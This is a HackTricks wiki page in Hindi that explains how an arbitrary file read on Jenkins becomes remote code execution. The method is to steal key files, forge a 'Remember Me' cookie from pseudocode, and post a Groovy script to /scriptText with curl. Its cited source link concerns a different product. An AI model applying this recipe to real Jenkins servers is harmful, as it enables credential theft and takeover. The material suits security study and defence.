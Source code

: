 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस ब्लॉग पोस्ट में एक शानदार तरीका है कि कैसे Jenkins में एक स्थानीय फ़ाइल समावेशन (Local File Inclusion) की कमजोरी को RCE में परिवर्तित किया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस भाग की जिसमें एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए किया जाता है, जब तक कि मेरे पास अपने स्वयं के संक्षेप को बनाने का समय नहीं है:

### हमले की पूर्वापेक्षाएँ

* **विशेषता आवश्यकता:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
* **एक्सेस स्तर:** हमलावर को समग्र/पढ़ने की अनुमति की आवश्यकता है।
* **गुप्त एक्सेस:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### विस्तृत शोषण प्रक्रिया

#### चरण 1: डेटा संग्रहण

**उपयोगकर्ता जानकारी पुनर्प्राप्ति**

* प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँचें:
* **उपयोगकर्ता नाम**
* **उपयोगकर्ता बीज**
* **टाइमस्टैम्प**
* **पासवर्ड हैश**

**गुप्त कुंजी निष्कर्षण**

* कुकी पर हस्ताक्षर करने के लिए उपयोग की जाने वाली क्रिप्टोग्राफिक कुंजियों को निकालें:
* **गुप्त कुंजी:** `$JENKINS_HOME/secret.key`
* **मास्टर कुंजी:** `$JENKINS_HOME/secrets/master.key`
* **MAC कुंजी फ़ाइल:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### चरण 2: कुकी निर्माण

**टोकन तैयारी**

*   **टोकन समाप्ति समय की गणना करें:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // वर्तमान समय में एक घंटा जोड़ता है
```
{% endcode %}
*   **टोकन के लिए डेटा को संयोजित करें:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC कुंजी डिक्रिप्शन**

*   **MAC कुंजी फ़ाइल को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // मास्टर कुंजी को AES128 कुंजी प्रारूप में परिवर्तित करें
decrypted = AES.decrypt(macFile, key)  // .mac फ़ाइल को डिक्रिप्ट करें
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**हस्ताक्षर गणना**

*   **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey)  // टोकन और MAC कुंजी का उपयोग करके HMAC की गणना करें
tokenSignature = bytesToHexString(mac)  // MAC को हेक्साडेसिमल स्ट्रिंग में परिवर्तित करें
```

**कुकी एन्कोडिंग**

*   **अंतिम कुकी उत्पन्न करें:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // कुकी डेटा को Base64 एन्कोड करें
```
{% endcode %}

#### चरण 3: कोड निष्पादन

**सत्र प्रमाणीकरण**

* **CSRF और सत्र टोकन प्राप्त करें:**
* `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
* प्रतिक्रिया से `JSESSIONID` को कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**कमांड निष्पादन अनुरोध**

*   **Groovy स्क्रिप्ट के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड यह प्रदर्शित करता है कि कैसे आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध भेजा जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
